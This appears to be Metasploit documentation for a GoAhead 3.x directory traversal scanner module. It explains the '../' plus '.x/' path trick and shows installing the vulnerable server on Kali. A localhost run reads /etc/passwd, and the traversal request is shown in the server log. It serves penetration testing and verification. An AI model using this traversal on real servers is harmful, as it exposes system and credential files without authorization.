 ## Vulnerable Application

GoAhead web server by EmbedThis versions from 3.0.0 through 3.4.1 contains a directory traversal vulnerability.
To exploit this vulnerability, each `../` must be matched with a `.x/`, with each being grouped together.
For instance a depth of 2 will look as follows: `../../.x/.x/foobar`.

An excellent writeup is available on [PacketStorm](https://packetstormsecurity.com/files/131156/GoAhead-3.4.1-Heap-Overflow-Traversal.html).

### Install on Kali

Since `goahead` is available on Git, we can simply download the vulnerable version, compile, and run it.

```
root@kali:/tmp# wget https://github.com/embedthis/goahead/archive/v3.4.1.tar.gz
--2019-10-07 20:42:28--  https://github.com/embedthis/goahead/archive/v3.4.1.tar.gz
Resolving github.com (github.com)... 192.30.253.113
Connecting to github.com (github.com)|192.30.253.113|:443... connected.
HTTP request sent, awaiting response... 302 Found
Location: https://codeload.github.com/embedthis/goahead/tar.gz/v3.4.1 [following]
--2019-10-07 20:42:29--  https://codeload.github.com/embedthis/goahead/tar.gz/v3.4.1
Resolving codeload.github.com (codeload.github.com)... 192.30.253.120
Connecting to codeload.github.com (codeload.github.com)|192.30.253.120|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: unspecified [application/x-gzip]
Saving to: ‘v3.4.1.tar.gz’

v3.4.1.tar.gz                                   [     <=>                                                                                 ]   5.95M  6.35MB/s    in 0.9s    

2019-10-07 20:42:30 (6.35 MB/s) - ‘v3.4.1.tar.gz’ saved [6234594]

root@kali:/tmp# tar -zxf v3.4.1.tar.gz 
root@kali:/tmp# cd goahead-3.4.1/
root@kali:/tmp/goahead-3.4.1# make
make --no-print-directory -f projects/goahead-linux-default.mk all
      [Info] Use make SHOW=1 to trace executed commands.
      [Copy] build/linux-x64-default/bin/ca.crt
      [Copy] build/linux-x64-default/inc/osdep.h
      [Copy] build/linux-x64-default/inc/est.h
   [Compile] build/linux-x64-default/obj/estLib.o
      [Link] build/linux-x64-default/bin/libest.so
      [Copy] build/linux-x64-default/inc/goahead.h
      [Copy] build/linux-x64-default/inc/js.h
   [Compile] build/linux-x64-default/obj/action.o
   [Compile] build/linux-x64-default/obj/alloc.o
   [Compile] build/linux-x64-default/obj/auth.o
   [Compile] build/linux-x64-default/obj/cgi.o
   [Compile] build/linux-x64-default/obj/crypt.o
   [Compile] build/linux-x64-default/obj/file.o
   [Compile] build/linux-x64-default/obj/fs.o
   [Compile] build/linux-x64-default/obj/http.o
   [Compile] build/linux-x64-default/obj/js.o
   [Compile] build/linux-x64-default/obj/jst.o
   [Compile] build/linux-x64-default/obj/options.o
   [Compile] build/linux-x64-default/obj/osdep.o
   [Compile] build/linux-x64-default/obj/rom-documents.o
   [Compile] build/linux-x64-default/obj/route.o
   [Compile] build/linux-x64-default/obj/runtime.o
   [Compile] build/linux-x64-default/obj/socket.o
   [Compile] build/linux-x64-default/obj/upload.o
   [Compile] build/linux-x64-default/obj/est.o
   [Compile] build/linux-x64-default/obj/matrixssl.o
   [Compile] build/linux-x64-default/obj/nanossl.o
   [Compile] build/linux-x64-default/obj/openssl.o
      [Link] build/linux-x64-default/bin/libgo.so
   [Compile] build/linux-x64-default/obj/goahead.o
      [Link] build/linux-x64-default/bin/goahead
   [Compile] build/linux-x64-default/obj/test.o
      [Link] build/linux-x64-default/bin/goahead-test
   [Compile] build/linux-x64-default/obj/gopass.o
      [Link] build/linux-x64-default/bin/gopass

You can now install via "sudo make  install" or run GoAhead via: "sudo make run"
To run locally, put linux-x64-default/bin in your path

root@kali:/tmp/goahead-3.4.1# build/linux-x64-default/bin/goahead --verbose --home test /var/www/html/
```

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: ```use auxiliary/scanner/http/goahead_traversal```
  4. Do: ```set rhosts [ip]```
  5. Do: ```set depth [number]```
  6. Do: ```run```
  7. You should get the file contents.

## Options

### DEPTH

  The depth to traverse from the webroot.  This does not need to be exact, overshooting (using a number larger than needed)
  will still result in the file being obtained.  Default is `5`

### FILEPATH

  The path to the file to read.  Default is `/etc/passwd`.

## Scenarios

### GoAhead 3.4.1 on Kali

Install from the instructions at the top of this document.

```
msf > use auxiliary/scanner/http/goahead_traversal 
msf auxiliary(scanner/http/goahead_traversal) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf auxiliary(scanner/http/goahead_traversal) > set depth 5
depth => 5
msf auxiliary(scanner/http/goahead_traversal) > run

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin

[+] File saved in: /root/.msf4/loot/20191007213309_default_127.0.0.1_goahead.traversa_324804.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

#### Server Logs

When setting the server to verbose output, the following is shown during exploitation:

```
# build/linux-x64-default/bin/goahead --verbose --home test /var/www/html/
goahead: 2: Configuration for Embedthis GoAhead
goahead: 2: ---------------------------------------------
goahead: 2: Version:            3.4.1
goahead: 2: BuildType:          Debug
goahead: 2: CPU:                x64
goahead: 2: OS:                 linux
goahead: 2: Host:               127.0.1.1
goahead: 2: Directory:          /var/www/html/goahead-3.4.1/test
goahead: 2: Documents:          /var/www/html/
goahead: 2: Configure:          me -d -q -platform linux-x86-default -configure . -with est -gen make
goahead: 2: ---------------------------------------------
goahead: 2: Started http://*:80
goahead: 2: Started https://*:443
goahead: 2: GET ../../../../../.x/.x/.x/.x/.x/etc/passwd HTTP/1.1
```
